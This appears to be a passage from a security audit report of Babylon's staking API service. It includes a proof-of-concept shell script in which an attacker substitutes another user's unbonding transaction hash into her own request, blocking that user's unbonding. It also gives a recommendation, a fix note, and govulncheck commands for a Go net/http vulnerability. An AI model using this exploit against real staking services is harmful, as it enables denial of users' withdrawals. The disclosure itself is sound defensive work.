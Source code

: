 - Alice's TX create_staking_tx 500000000 1000 # 5 BTC 

  move_next_block move_next_block 

- Eve creates unbonding tx for Alice unbonding_tx_alice=$(just_create_unbonding_tx $(cat $DIR/500000000/tx_hex) 3) unbonding_tx_hash_alice=$(echo \"$unbonding_tx_alice\" | jq -r '.unbonding_tx_hash_hex') 

  echo \"$unbonding_tx_hash_alice\" 

- Eve's TX create_staking_tx 200000000 1000 # 2 BTC 

  move_next_block move_next_block 

  unbonding_tx_eve=$(just_create_unbonding_tx $(cat $DIR/200000000/tx_hex) 3) 

  modified_request=$(echo \"$unbonding_tx_eve\" | jq --arg unbonding_tx_hash_hex \"$unbonding_tx_hash_alice\" ,→ '.unbonding_tx_hash_hex = $unbonding_tx_hash_hex') 

  echo \"$modified_request\" 

- Eve submits own request with Alice's tx_hash curl -sSL localhost:80/v1/unbonding -d \"$modified_request\" 

  echo \"\" echo \"Eve unbonded\" 

  move_next_block 

  echo \"Alice unbonds\" 

- Alice tries to unbond curl -sSL localhost:80/v1/unbonding -d \"$unbonding_tx_alice\" 

  move_next_block 

**Recommendation:** Since the provided hash should always match the provided transaction, I see no need to let the user provide it. It would be better to just calculate the transaction's hash in the staking-apiservice and using that as the key for the database as then no user could manipulate it. 

**Babylon:** Fixed in staking-api-service PR 161. 


#### 3.2 Medium Risk 

  3.2.1 Staking API service can be unavailable due to continuation flood vulnerability in net/http 

  Submitted by zigtur Severity: Medium Risk Context: go.mod#L3, go.mod#L3, go.mod#L3, server.go#L6 Description: The Staking API service uses Go in version 1.21.6 as configured in the go.mod file. However, for this Go version, a vulnerability is known in the net/http package. More information about this vulnerabilty can be found at here. Proof of concept: The govulncheck tool shows the vulnerability: 

- Install govulncheck if not already done $ go install golang.org/x/vuln/cmd/govulncheck@latest 

- Run govulncheck on the `api` directory $ govulncheck ./internal/api/ 

- It can also be run on the compiled binary $ govulncheck -mode binary ./build/staking-api-service 

The output of govulncheck shows the following: 

  === Symbol Results === 
